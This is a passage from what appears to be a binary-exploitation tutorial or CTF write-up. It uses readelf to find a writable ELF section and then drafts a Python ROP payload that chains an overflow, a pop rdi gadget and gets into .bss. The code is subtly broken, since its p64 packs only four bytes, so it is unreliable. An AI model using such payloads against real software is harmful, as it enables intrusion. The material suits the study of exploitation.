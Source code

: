 Now we need to find the `r/w` section using either `gdb` or `readelf`. Let's use `readelf`.

```bash
└─$ readelf -S binary-file
There are 31 section headers, starting at offset 0x3ae0:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .interp           PROGBITS         0000000000400318  00000318
       000000000000001c  0000000000000000   A       0     0     1
...
  [23] .got              PROGBITS         0000000000403ff0  00002ff0
       0000000000000010  0000000000000008  WA       0     0     8
  [24] .got.plt          PROGBITS         0000000000404000  00003000
       0000000000000048  0000000000000008  WA       0     0     8
  [25] .data             PROGBITS         0000000000404050  00003048
       0000000000000010  0000000000000000  WA       0     0     8
  [26] .bss              NOBITS           0000000000404060  00003058
       0000000000000010  0000000000000000  WA       0     0     32
  [27] .comment          PROGBITS         0000000000000000  00003058
       000000000000002b  0000000000000001  MS       0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), l (large), p (processor specific)
```

From the above output, we got the `.bss` section which refers to a section in the ELF which usually has the r/w section. We can see the `WA` flag in the output which stands for `WRITE ALLOC`.

We have the data section starting from `0x404050`. It's not a recommended practice to use the starting address during the development of the exploit, so let's add `0x400` as an offset to our Python exploit draft.

```python
from struct import pack

p64 = lambda x: pack("<I", x)

gets = 0x00000000004010d0

pop_rdi = 0x4012e3 # gadget found to build ROP / ropper [...] --search 'pop rdi; ret'
payload = b"A"*264 # 264 is the instruction pointer offset (when seg fault)
payload += p64(pop_rdi)
payload += p64(0x404050 + 0x400) # .bss start + 0x400 (offset)
payload += p64(gets)
f = open("x.txt", "wb")
f.write(payload)
f.close()
```
{% endtab %}
